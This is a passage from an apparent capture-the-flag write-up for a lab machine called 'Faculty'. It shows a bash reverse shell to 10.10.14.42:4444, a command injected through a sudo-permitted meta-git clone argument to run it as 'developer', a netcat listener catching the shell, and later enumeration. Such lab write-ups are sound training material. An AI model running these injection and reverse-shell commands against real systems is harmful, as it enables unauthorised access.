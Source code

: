 ```sh
(node:7954) UnhandledPromiseRejectionWarning: Unhandled promise rejection. This error originated either by throwing inside of an async function without a catch block, or by rejecting a promise which was not handled with .catch(). (rejection id: 1)
(node:7954) [DEP0018] DeprecationWarning: Unhandled promise rejections are deprecated. In the future, promise rejections that are not handled will terminate the Node.js process with a non-zero exit code.
```

```sh
gbyolo@faculty:/tmp$ ls -al
total 48
drwxrwxrwt 12 root      root      4096 Feb 11 19:24 .
drwxr-xr-x 19 root      root      4096 Jun 23  2022 ..
drwxrwxrwt  2 root      root      4096 Feb 11 16:39 .ICE-unix
drwxrwxrwt  2 root      root      4096 Feb 11 16:39 .Test-unix
drwxrwxrwt  2 root      root      4096 Feb 11 16:39 .X11-unix
drwxrwxrwt  2 root      root      4096 Feb 11 16:39 .XIM-unix
drwxrwxrwt  2 root      root      4096 Feb 11 16:39 .font-unix
-rw-rw-r--  1 developer developer    0 Feb 11 19:24 HACKED
-rw-rw-r--  1 developer developer    0 Feb 11 19:24 sss
[--snip--]
```

Let's rework the command to hopefully get a shell as `developer`. I'll create a `.sh` file as follows, and then execute with the exploit:

```sh
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.42/4444 0>&1
```

```sh
gbyolo@faculty:/tmp$ sudo -u developer meta-git clone 'sss||bash /tmp/shell.sh'
```

```sh
┌──(pl4stic㉿kali)-[~/htb/faculty]
└─$ nc -nvlp 4444                 
listening on [any] 4444 ...
connect to [10.10.14.42] from (UNKNOWN) [10.129.227.208] 33344
developer@faculty:/tmp$
```

## Shell as developer

### Enumeration

```sh
developer@faculty:/tmp$ id
id
uid=1001(developer) gid=1002(developer) groups=1002(developer),1001(debug),1003(faculty)

developer@faculty:/tmp$ find / -group debug 2>/dev/null
find / -group debug 2>/dev/null
/usr/bin/gdb
```
